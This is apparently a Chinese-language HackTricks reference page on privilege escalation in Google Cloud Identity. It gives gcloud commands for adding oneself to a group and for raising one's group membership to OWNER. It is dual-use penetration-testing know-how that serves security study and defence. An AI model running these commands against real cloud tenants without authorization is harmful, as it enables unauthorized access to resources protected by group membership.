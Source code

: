 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

有关 cloudidentity 服务的更多信息，请查看此页面：

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### 将自己添加到组中

如果您的用户具有足够的权限或组配置错误，他可能能够将自己添加为新组的成员：
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### 修改组成员资格

如果您的用户拥有足够的权限或组配置错误，他可能能够使自己成为他所属于的组的所有者：
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
